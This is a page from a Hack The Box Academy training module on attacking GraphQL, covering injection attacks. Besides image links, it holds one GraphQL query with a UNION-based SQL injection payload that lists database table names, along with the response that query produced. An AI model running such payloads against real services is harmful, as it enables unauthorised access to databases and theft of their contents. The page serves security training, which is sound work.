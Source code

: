 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/271/section/3154
// Platform Version: V1
// Module ID: 271
// Module Name: Attacking GraphQL
// Module Difficulty: Medium
// Section ID: 3154
// Section Title: Injection Attacks
// Page Title: Hack The Box - Academy
// Page Number: 04
-->

# Injection Attacks

**Module Name:** Attacking GraphQL **Page Number:** 04

#### 

#### ATTACKING GRAPHQL Mini-Module

# Injection Attacks

## SQL Injection

![https://academy.hackthebox.com/storage/modules/271/sqli_1.png](https://academy.hackthebox.com/storage/modules/271/sqli_1.png)

![https://academy.hackthebox.com/storage/modules/271/sqli_2.png](https://academy.hackthebox.com/storage/modules/271/sqli_2.png)

![https://academy.hackthebox.com/storage/modules/271/sqli_3.png](https://academy.hackthebox.com/storage/modules/271/sqli_3.png)

![https://academy.hackthebox.com/storage/modules/271/sqli_4.png](https://academy.hackthebox.com/storage/modules/271/sqli_4.png)

![https://academy.hackthebox.com/storage/modules/271/sqli_5.png](https://academy.hackthebox.com/storage/modules/271/sqli_5.png)

![https://academy.hackthebox.com/storage/modules/271/info_5.png](https://academy.hackthebox.com/storage/modules/271/info_5.png)

``` graphql
{
  user(username: "x' UNION SELECT 1,2,GROUP_CONCAT(table_name),4,5,6 FROM information_schema.tables WHERE table_schema=database()-- -") {
    username
  }
}
```

``` graphql
{
  "data": {
    "user": {
      "username": "user,secret,post"
    }
  }
}
```

## Cross-Site Scripting (XSS)

![https://academy.hackthebox.com/storage/modules/271/xss_1.png](https://academy.hackthebox.com/storage/modules/271/xss_1.png)

![https://academy.hackthebox.com/storage/modules/271/xss_2.png](https://academy.hackthebox.com/storage/modules/271/xss_2.png)

# 

# 

#### Questions

####